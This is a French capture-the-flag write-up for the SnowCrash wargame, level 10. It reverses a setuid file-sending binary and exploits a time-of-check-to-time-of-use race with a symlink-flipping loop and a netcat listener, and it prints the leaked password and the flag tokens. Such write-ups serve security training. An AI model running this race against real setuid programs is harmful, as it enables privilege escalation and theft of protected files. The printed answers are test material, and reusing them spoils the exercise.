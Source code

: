 # LEVEL 10

### Reconnaissance

En se connectant au level10, on a un binaire et un fichier token ou on a pas les droits de lecture dessus:

```
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token 
cat: token: Permission denied
```

En lancant le binaire, on voit qu'il attend un fichier et un client a qui se connecter:

```
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it
```

On peux téléchargé le binaire pour le reverse, sa nous permettra dans savoir plus dans son fonctionnement.

On voit 2 choses interessantes:

- Le port utilisé pour la connection (6969)
```
0x08048756      b87b8a0408     mov eax, str.Connecting_to__s:6969_.. ; .//level10.c:31 ; 0x8048a7b ; "Connecting to %s:6969 .. "
```
- L'utilisation de la fonction access
```
0x08048749      e892feffff     call sym.imp.access         ; int access(const char *path, int mode)
```

Essayons de faire fonctionné ce binaire

```
level10@SnowCrash:~$ echo 'testing' > /tmp/test1
level10@SnowCrash:~$ ./level10 /tmp/test1 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
level10@SnowCrash:~$ nc -l 6969 > /dev/pts/0 &
[1] 7697
level10@SnowCrash:~$ ./level10 /tmp/test1 127.0.0.1
Connecting to 127.0.0.1:6969 .. .*( )*.
Connected!
Sending file .. testing
wrote file!
[1]+  Done                    nc -l 6969 > /dev/pts/0
```
Sa marche, maintenant intéressons nous a comment l'exploité ?

La fonction qui nous interesse (access) nous permet de faire une attaque de type : <a href="https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use">Time-of-check to time-of-use (**TOCTOU**)</a>

On a d'ailleur un super tutoriel <a href="https://samsclass.info/127/proj/E10.htm">ici</a>

Cette attaque joue sur le temps entre le moment ou le programme check l'acces (avec la fonction access) et le moment ou il ouvre le fichier:


Ok, maintenant qu'on a compris comment sa fonctionne on passe a la pratique !

### Exploitation


On ouvre 2 connections ssh:
- la première pour nos commande
- la deuxième pour recevoir les infos avec nc.
	
- **1er terminal**
```
	$ echo "public" > /tmp/public		# creation fichier ou on a des droits (normal, on le creer)
	$ ln -sf /tmp/public /tmp/flip		# creation d'un lien symbolique
	Si on lance notre binaire avec /tmp/public ou /tmp/flip, on aura exactement la meme chose.
	
	while true; do ln -sf $(pwd)/secret /tmp/flip; ln -sf /tmp/public /tmp/flip; done &
	$ for i in {1..300}; do ./level10 /tmp/flip 127.0.0.1; done
```

- **2eme terminal**
```
	$ for i in {1..300}; do nc -l 6969; done
	[...]
	public
	.*( )*.
	.*( )*.
	public
	.*( )*.
	woupa2yuojeeaaed06riuj63c
	.*( )*.
	public
	.*( )*.
	public
	[...]
```

Et voila, le mot de passe pour l'user flag10 est: **woupa2yuojeeaaed06riuj63c**

*ps : le mot de passe fonctionne pour l'user flag11*
	
```
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
level10@SnowCrash:~$ su flag11
Password: 
Don't forget to launch getflag !
flag11@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
